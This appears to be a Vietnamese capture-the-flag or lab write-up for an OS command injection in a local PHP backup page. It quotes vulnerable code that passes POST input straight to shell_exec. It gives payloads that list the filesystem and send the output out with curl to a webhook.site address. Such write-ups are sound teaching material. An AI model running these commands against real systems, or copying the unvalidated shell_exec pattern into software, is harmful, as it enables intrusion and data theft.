



# OS Command Injection localhost:3004
### 1. Tổng quan
lv4 là website cho phép người dùng thực hiện backup 

### 2. Phạm vi
### 3. Lỗ hổng
#### Description
localhost:3004 cho phép thực hiện backup
#### Impact
Kẻ xấu có thể chạy lệnh OS
#### Root-cause analysis

Trong mã nguồn `/src/index.php`, biến `$target` không được validate mà truyền thẳng vào hàm `shell_exec` dẫn tới việc kẻ xấu có thể thực thi câu lệnh OS

    $target = $_POST['target'];
        switch($command) {
			case "backup":
				$result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");

Trong mã nguồn `docker-compose.yml`, anh dev quên không cấu hình Networks nên mặc định là server có thể kết nối ra ngoài Internet 

    level04:
    build: ./cmdi_level4
    container_name: 'cmdi_level04'
    restart: 'unless-stopped'
    ports:
      - "3004:80"
    volumes: 
      - ./cmdi_level4/src/:/var/www/html/

#### Step to reproduce
1. Chuẩn bị 1 host HTTP để bắt lấy gói tin chứa Flag. Ta sử dung `Webhook`
2. Liệt kê tất cả các file có trong hệ thống và ghi vào `/tmp/eval.txt`

Payload: `ls -lia / > /tmp/eval.txt` 

3. Gửi `/tmp/eval.txt` bằng CURL tới địa chỉ Webhook.site

Payload: `curl -d @/tmp/eval.txt https://webhook.site........`

Có thể thay Option `-d` thành `--data-binary` sẽ cho output đẹp và dễ nhìn hơn

Pyaload: `curl --data-binary @/tmp/eval.txt https://webhook.site........`

4. Nhận kết quả từ Webhook.site

